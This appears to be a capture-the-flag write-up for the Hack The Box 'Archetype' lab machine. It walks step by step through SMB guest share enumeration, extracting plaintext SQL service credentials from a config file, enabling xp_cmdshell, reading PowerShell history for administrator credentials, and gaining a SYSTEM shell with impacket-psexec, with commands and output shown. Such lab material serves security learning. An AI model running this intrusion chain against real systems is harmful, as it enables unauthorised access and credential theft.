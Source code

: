 =====================================================================================
1. Port 445 is open the user is defined as "Guest"
```bash  
smbclient -L \\10.129.95.187\\ -U 'guest'
Password for [WORKGROUP\guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.95.187 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
======================================================================================
2. Check the additional share name.
```bash
mbclient //10.129.95.187/backups -U 'guest'
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 17:50:57 2020
  ..                                  D        0  Mon Jan 20 17:50:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 17:53:02 2020

                5056511 blocks of size 4096. 2611322 blocks available
smb: \> get prod.config
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \prod.config
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \>
```
==========================================================================================
3. There is something inside of it.
```bash
┌──(sabeshan㉿kali)-[~/HTB/startpoint]
└─$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
===============================================================================================
4. It enters to a mssql 
```bash
impacket-mssqlclient ARCHETYPE/sql_svc@10.129.95.187 -windows-auth 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)>
```
===================================================================================================
5. Get the initial access with xp_cmdshell
```bash
->EXEC sp_configure 'show advanced options', 1;
->RECONFIGURE;
->sp_configure; - Enabling the sp_configure as stated in the above error message
->EXEC sp_configure 'xp_cmdshell', 1;
->RECONFIGURE;
first of all we need to configure the system to cmdshell then we can achieve our exlpoits.
after running the winpeas on the system i can gain the admin creds
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
output                                                                    
-----------------------------------------------------------------------   
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!   

exit                                                                      

NULL                                                                      

SQL (ARCHETYPE\sql_svc  dbo@master)>
```
==========================================================================================================
6.Finally i got the system in the machine
```bash
impacket-psexec Administrator@10.129.95.187                        
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.129.95.187.....
[*] Found writable share ADMIN$
[*] Uploading file vwNHnXzm.exe
[*] Opening SVCManager on 10.129.95.187.....
[*] Creating service nRpj on 10.129.95.187.....
[*] Starting service nRpj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
==============================================================================================================

